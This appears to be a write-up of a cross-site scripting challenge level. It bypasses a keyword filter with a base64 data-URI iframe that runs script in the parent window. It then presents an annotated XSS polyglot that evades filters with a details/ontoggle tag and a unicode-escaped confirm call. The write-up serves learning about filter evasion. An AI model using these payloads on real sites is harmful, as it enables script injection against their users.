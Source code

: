 
If the words script, style and on aren't allowed, we have to think about something else this time. Apparently it's possible to encode JavaScript as Base64 and make it execute as an iframe src. From the Stack Overflow question Is it possible to "fake" the src attribute of an iframe? we can read that it's possible to do:

:::html
`<iframe src="data:text/html;base64, .... base64 encoded HTML data ....">`
Read more about data URIs on Mozilla Developer Network. The HTML data we want to use is:

:::html
`<script>parent.alert(document.domain);</script>`
parent. is needed because we want the alert to execute in the context of the parent's window. Encoding it as Base64 with the Character Encoding Calculator results in:

PHNjcmlwdD5wYXJlbnQuYWxlcnQoZG9jdW1lbnQuZG9tYWluKTs8L3NjcmlwdD4
The code that we will then put into the search box to finish the level is:

:::html
`"><iframe src="data:text/html;base64,PHNjcmlwdD5wYXJlbnQuYWxlcnQoZG9jdW1lbnQuZG9tYWluKTs8L3NjcmlwdD4="></iframe>`


```-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>```
```
-->          Breaks comment context  
'            Breaks Attribute Context  
"            Breaks attribute context  
/>           Closes an open tag  
</sCript>    Breaks JS context  
<deTailS     A less known tag  
open         To eliminate user interaction required for execution
x            Dummy attribute
">"          Mimics the closing of tag
ontoggle     A less known event handler
()           Parentheses around the function
co\u006efirm "confirm" function with Unicoded 'n'
``           Backticks instead of ()
Note that we may only need a certain portion of the polyglot, depending on our situation. Do not copy & paste blindly.
```
